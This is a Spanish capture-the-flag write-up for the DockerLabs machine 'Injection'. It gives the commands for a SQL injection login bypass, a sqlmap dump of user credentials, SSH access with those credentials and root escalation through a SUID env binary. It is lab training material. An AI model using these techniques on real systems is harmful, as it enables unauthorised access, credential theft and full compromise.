









# 🐧 DockerLabs CTF
## Maquina Injection

###### Dirección IP de la maquina: 172.17.0.2


### 🔧 Paso 1: Escaneo con nmap
```bash
sudo nmap -sV -Pn -open --min-rate 5000 172.17.0.2
```
#### Puertos abiertos:

- **22/tcp** → SSH
- **80/tcp** → HTTP (Apache)
---

### 🌐 Paso 2: Enumeración Web.
Al entrar al sitio lo primero que vemos es un login al cual ingresamos caracteres especiales para ver los mensajes de error.

notamos que al enviar el carácter **'** (comilla simple) se genera un error de sql lo que nos dice que el login es vulnerable a sql injection.




### 🌐 Paso 3: Explotación.

#### 3.1: Metodo 1: Inyeccion directa de SQL en el Login.
Ingresamos en el user  ``` ‘ or 1=1 # ``` , en contraseña ponemos cualquier cosa y tendremos acceso al sitio web



### 3.2: Metodo 2: sqlmap.
Otra foorma de acceder a la base de datos es usando la herramienta sqlmap

- listamos las base de datos

```bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs –batch
```


- Abrimos la base **register**
```bash
sqlmap -u http://172.17.0.2/index.php --forms  --batch -D register –tables
```



- Vemos una tabla **Users** la cual abrimos para ver su estructura. 
```bash
sqlmap -u http://172.17.0.2/index.php --forms  --batch -D register -T users --column
```



- Conociendo las columas de la tabla listamos la informaciín que contiene. 
```bash
sqlmap -u http://172.17.0.2/index.php --forms  --batch -D register -T users -C username,passwd –dump
```


Encontramos el usuario y contraseña de Dylan las cuales usamos para acceder al citio web


### 🔑  Paso 4: Acceso ssh.
Verificamos si las credenciales encontradas sirven para acceder por ssh y efectivamente nos conectamos al servidor
```bash
ssh dylan@172.17.0.2
```



### 📈 Paso 5: Escalada de privilegios.
Verificamos si el usuario dylan puede ejecutar binarios como sudo con ```sudo -l ```: no permite la ejecución del comando.

Buscamos mas permisos: ```find / -perm -4000 2>/dev/null ```


Abrimos el binario **env**.  ```/usr/bin/env /bin/sh -p```. y hemos ganado acceso root.
